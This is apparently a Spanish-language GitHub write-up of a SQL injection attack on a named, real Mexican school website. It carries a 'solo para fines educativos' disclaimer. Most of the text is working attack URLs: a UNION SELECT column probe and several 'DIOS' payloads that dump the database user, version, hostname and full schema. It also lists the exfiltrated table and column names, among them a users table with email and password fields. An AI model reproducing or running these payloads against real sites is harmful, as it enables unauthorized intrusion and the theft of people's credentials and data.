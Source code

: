 - **Solo para fines educativos!!!**

### Original Dork
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=112
````

### Vulnerable a:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=112'
````

### La BD tiene 9 tablas (se rompe en 10) - SQLi PWNed!!!
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112'  Union Select 1,2,3,4,5,6,7,8,9 --+-
````

### Para arrojar la trifuerza:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112'  Union Select 1,"Injected by Fz3r0",3,4,5,6,(CONCAT(0x3c62723e,"User + Database + Version Dump:",0x3c62723e,0x3c62723e,USER(),0x3c62723e,DATABASE(),0x3c62723e,VERSION(),0x3c62723e,0x3c62723e,"DIOS hecho en Mexico",0x3c62723e)),8,9 --+-
````

### Se arma el DIOS (aqui lo pongo por separado):
````bat
concat("SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico'),3,4,5,6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database PWNed!!!','<br>',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database())))
````

### Ahora si, se agrega el DIOS al número vulnerable, aquí usé 2 diferentes:
- version sin tanto pimp:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat("SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico'),3,4,5,6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database = PWNed!!!','<br>',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+- 
````

- version Fz3r0 DIOS mega pimp del papi:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat('<span style="font-size:40px;color:red;">',"SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico','</span>'),'666',4,'666',6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<span style="font-size:22px;color:red;">','Hay fuerza, hay mente,','hay artillería pesada controlando el machete','<span style="font-size:17px;color:green;">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database = PWNed!!!',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+- 
````

### Se puede ofuscar y codificar al final para la estocada final:
````bat
````

---

## Datos 

- Se me resbalaron unos comandos: 

### Bases de datos:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat('<span style="font-size:40px;color:red;">',"SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico','</span>'),'666',4,'666',6,(SELECT+(@x)+FROM+(SELECT+(@x:=0x00),(@NR_DB:=0),(SELECT+(0)+FROM+(INFORMATION_SCHEMA.SCHEMATA)+WHERE+(@x)+IN+(@x:=CONCAT(@x,LPAD(@NR_DB:=@NR_DB%2b1,2,0x30),0x20203a2020,schema_name,0x3c62723e))))x),8,9 --+- 
````

### Bases de datos:

````
Activ_plantel
Area
Avisos
CatDocente
Cat_Com
Convenios
Directorio
Especialidad
Especialidad_copy1
Especialidad_has_Planteles
Eventos
Invitacion_adq
Modulos_Especialidad
Municipio
Planteles
Programa_Anual
Programa_Anual_copy1
Registro_huk
Registro_test
archivos
avisos_SPD_BKP
avisos_USICAMM
buzon_denuncias
buzon_sugerencias
categorias
detalleDocente
directorio_planteles
especialidades_en_planteles
estrado_electronico
img_notas
img_notas_copy1
infoSPD
list_planteles
noticias
noticias_copy1
tipo_mensaje
tipo_usuario
usuarios 
````

## Dump Data Users
````bat
id
mail
passw
privilegios
usuario
````


## Tablas directorio
````
area
cargo
correo
extension
id_directorio
id_padre
nivel
orden
status
titular
````

## Bonus: Version super basic:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,2,3,4,5,6,concat_ws('<br>','Injected by Fz3r0','<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">',database(),version(),user(),@@hostname,(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+-
````
